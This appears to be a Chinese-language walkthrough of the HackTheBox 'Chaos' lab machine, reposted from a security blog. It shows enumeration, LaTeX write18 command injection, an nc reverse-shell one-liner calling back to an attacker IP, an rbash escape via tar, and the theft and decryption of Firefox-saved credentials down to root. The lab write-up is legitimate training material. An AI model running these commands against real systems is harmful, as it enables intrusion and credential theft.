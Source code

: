 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/-gHwBV6_2_gFicOtWmrjTA)

点击上方 “蓝字” 关注公众号获取最新信息!

> 本文作者：Twe1ve（贝塔安全实验室 - 核心成员）

* * *

nmap 扫描结果：

80/tcp    open     http

|_http-title: Site doesn't have a title (text/html).

110/tcp   open     pop3

143/tcp   open     imap

|_imap-capabilities: LITERAL+ listed more STARTTLS ID LOGIN-REFERRALS IDLE ENABLE post-login capabilities Pre-login IMAP4rev1 OK LOGINDISABLEDA0001 have SASL-IR

|_ssl-date: TLS randomness does not represent time

10000/tcp open     snet-sensor-mgmt

| ssl-cert: Subject: commonName=*/organizationName=Webmin Webserver on chaos

| Not valid before: 2018-10-28T12:45:28

|_Not valid after:  2023-10-27T12:45:28

|_ssl-date: TLS randomness does not represent time

端口对应服务访问：  

https://10.10.10.120:10000/ ---->webmin 登录 ---> 默认及常规密码无效 ---> 且错误密码过多被拒绝登录

http://10.10.10.120/wp/wordpress/  --->Wordpress 网站

http://10.10.10.120/wp/wordpress/  ---> 密码保护文章

```
wpscan --url http://10.10.10.120/wp/wordpress/ -e ap -e u
得到用户名human
WordPress version 4.9.8
```

使用 human 解开密码保护文章：

```
Creds for webmail :
username – ayush
password – jiujitsu
```

使用 evolution 登录邮箱：得到提示 "You are the password"; 以及两个文件

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qnocBWYC1b9VrxthR6rw6P28fRN10kzYPSQiauvmcrdxIx5V3vyJYBDRNbcria6ia12vtPric5DQpVmgQ/640?wx_fmt=png)

python 脚本内容为 AES 加密，解密：

https://raw.githubusercontent.com/happygirlzt/Cryptography/master/encrypt.py

```
kali@kali:~$ python encrypt.py
Would you like to (E)ncrypt of (D)ecrypt?: 'D'
File to decrypt: 'enim_msg.txt'
Password: 'sahay'
Done.
kali@kali:~$ cat enim_msg.txt_dec
SGlpIFNhaGF5CgpQbGVhc2UgY2hlY2sgb3VyIG5ldyBzZXJ2aWNlIHdoaWNoIGNyZWF0ZSBwZGYKCnAucyAtIEFzIHlvdSB0b2xkIG1lIHRvIGVuY3J5cHQgaW1wb3J0YW50IG1zZywgaSBkaWQgOikKCmh0dHA6Ly9jaGFvcy5odGIvSjAwX3cxbGxfZjFOZF9uMDdIMW45X0gzcjMKClRoYW5rcywKQXl1c2gK   --- >得到链接：http://chaos.htb/J00_w1ll_f1Nd_n07H1n9_H3r3 --->创建PDF
```

test1 无法生成；但是 test2 和 test3 可以

目录扫描发现：

http://chaos.htb/J00_w1ll_f1Nd_n07H1n9_H3r3/doc/latex/adjustbox/  --->latex 可能存在命令注入？？？

```
\immediate\write18{id}
```

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qnocBWYC1b9VrxthR6rw6P2TS4yXNQp0wiaEicHmaASlafVqTYRRY3JsibE8ZGfCxODyqia9llHibpWmAQ/640?wx_fmt=png)

反弹 shell：### 由于 latex 对 & 等字符解析存在问题；

[方法 1] 需要对 & ; 进行编码

[方法 2] 使用 python 反弹 shell

[方法 3] 构造无 & 符号 nc payload

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 0</tmp/f|nc 10.10.14.67 9999 >/tmp/f
```

使用前边邮箱账户密码成功登录 ayush 用户：---> rbash: cd: restricted

绕过 rbash 限制： 

https://www.hackingarticles.in/multiple-methods-to-bypass-restricted-shell/

https://www.exploit-db.com/docs/english/44592-linux-restricted-shell-bypass-guide.pdf

常规方法不能绕过，最终绕过 paylaod

```
tar cf /dev/null rick.tar --checkpoint=1 --checkpoint-action=exec=/bin/bash
```

  

```
ayush@chaos:/home$ echo $PATH
echo $PATH
/home/ayush/.app
###需要修复路径：
export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

用户目录下发现. mozilla 文件夹。切换到该目录并开启 SimpleHTTPServer，本机下载改目录下的凭证回来解开

```
wget http://10.10.10.120:8000/ --recursive
```

在 firefox/bzo7sjt1.default / 目录中发现 key4.db 和 logins.json

解密凭证：

https://raw.githubusercontent.com/unode/firefox_decrypt/master/firefox_decrypt.py 

```
kali@kali:~/10.10.10.120:8000/firefox/bzo7sjt1.default$ python firefox_decrypt.py  /home/kali/10.10.10.120:8000/firefox/bzo7sjt1.default
2020-04-20 06:05:13,798 - WARNING - profile.ini not found in /home/kali/10.10.10.120:8000/firefox/bzo7sjt1.default
2020-04-20 06:05:13,798 - WARNING - Continuing and assuming '/home/kali/10.10.10.120:8000/firefox/bzo7sjt1.default' is a profile location
Master Password for profile /home/kali/10.10.10.120:8000/firefox/bzo7sjt1.default:
Website:   https://chaos.htb:10000
Username: 'root'
Password: 'Thiv8wrej~'
```